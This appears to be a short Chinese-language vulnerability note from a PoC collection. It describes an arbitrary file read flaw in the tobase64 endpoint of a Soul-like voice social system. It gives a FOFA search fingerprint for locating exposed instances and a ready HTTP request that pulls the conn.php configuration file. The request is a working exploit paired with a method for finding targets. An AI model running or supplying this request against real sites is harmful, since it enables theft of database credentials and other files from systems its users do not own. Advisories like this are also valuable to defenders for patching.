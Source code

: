 # 某仿soul欲音社交系统存在任意文件读取漏洞

位于 /application/api/controller/upload.php 控制器中的tobase64 方法通过传入file参数 然后通过fopen直接读取任意文件，然后输出base64编码后的文件.

## fofa

```javascript
"/public/style/admin/js/jquery.min.js"
```

## poc

```php
GET /api/upload/tobase64?file=conn.php HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"sec-ch-ua-mobile: ?0sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
```

![image-20240902103855273](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409021038369.png)

## 漏洞来源

- https://mp.weixin.qq.com/s/SuunBk1lnphYNgixyWegRg

